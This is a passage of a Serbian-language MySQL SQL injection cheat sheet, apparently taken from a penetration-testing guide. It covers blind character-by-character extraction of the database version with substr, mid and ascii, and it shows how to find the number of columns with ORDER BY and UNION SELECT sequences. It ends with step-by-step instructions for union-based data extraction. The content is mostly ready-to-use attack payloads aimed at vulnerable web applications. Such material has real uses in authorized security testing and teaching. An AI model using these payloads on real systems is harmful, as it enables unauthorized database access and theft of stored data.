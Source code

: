 * `group_concat()`
* `Limit X,1`

### **Slepo jedan po jedan**

* `substr(version(),X,1)='r'` ili `substring(version(),X,1)=0x70` ili `ascii(substr(version(),X,1))=112`
* `mid(version(),X,1)='5'`

### **Slepo dodavanje**

* `LPAD(version(),1...lenght(version()),'1')='asd'...`
* `RPAD(version(),1...lenght(version()),'1')='asd'...`
* `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
* `SELECT LEFT(version(),1...lenght(version()))='asd'...`
* `SELECT INSTR('foobarbar', 'fo...')=1`

## Otkrivanje broja kolona

Koristeći jednostavno ORDER

```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```

## MySQL baziran na Uniji

### Opis

MySQL baziran na Uniji je tehnika SQL injekcije koja se koristi za izvlačenje podataka iz baze podataka kroz kombinovanje rezultata više SQL upita. Ova tehnika se koristi kada je ciljna aplikacija podložna SQL injekciji i koristi MySQL bazu podataka.

### Postupak

Da biste izvršili MySQL baziran na Uniji, pratite sledeće korake:

1. Identifikujte tačke injekcije: Pronađite ulazne tačke u ciljnoj aplikaciji gde možete ubaciti SQL kod.
2. Utvrdite broj kolona: Koristite `ORDER BY` klauzulu da biste utvrdili broj kolona u rezultatu SQL upita. Povećavajte broj kolona dok ne dobijete grešku ili ispravan rezultat.
3. Identifikujte tip podataka: Koristite `UNION SELECT` izraz da biste identifikovali tip podataka u svakoj koloni. Povećavajte broj kolona i pratite greške ili ispravne rezultate kako biste utvrdili tip podataka.
4. Izvlačenje podataka: Koristite `UNION SELECT` izraz da biste izvukli podatke iz baze podataka. Možete koristiti funkciju `CONCAT()` da biste kombinovali podatke iz različitih kolona u jedan rezultat.
